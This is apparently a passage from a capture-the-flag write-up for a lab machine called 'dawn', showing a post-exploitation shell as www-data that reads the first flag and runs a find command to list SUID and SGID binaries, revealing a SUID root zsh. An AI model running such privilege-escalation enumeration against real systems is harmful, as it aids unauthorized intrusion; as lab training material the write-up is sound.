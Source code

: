 
# post exploitation
## get first flag
```bash
www-data@dawn:~$ cd /home
cd /home
www-data@dawn:/home$ ls
ls
dawn
ganimedes
www-data@dawn:/home$ cd dawn
cd dawn
www-data@dawn:/home/dawn$ ls
ls
ITDEPT
local.txt
www-data@dawn:/home/dawn$ cat local.txt
cat local.txt
a******************************4
```

## privilege escalation
Checking for SUID binaries which are owned by `root`.
```bash
www-data@dawn:/home/dawn$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
-rwsr-xr-x 1 root root 35600 Jun 17  2018 /usr/sbin/mount.cifs
-rwxr-sr-x 1 root utmp 10232 Feb 18  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-- 1 root messagebus 51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Apr  8  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
-rwxr-sr-x 1 root tty 34896 Jan 10  2019 /usr/bin/wall
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 157192 Jan 12  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwxr-sr-x 1 root mail 18944 Dec  3  2017 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 861568 Feb  4  2019 /usr/bin/zsh
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwxr-sr-x 1 root crontab 43568 Jun 23  2019 /usr/bin/crontab
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 34896 Jan  7  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwxr-sr-x 1 root ssh 321672 Apr  8  2019 /usr/bin/ssh-agent
```
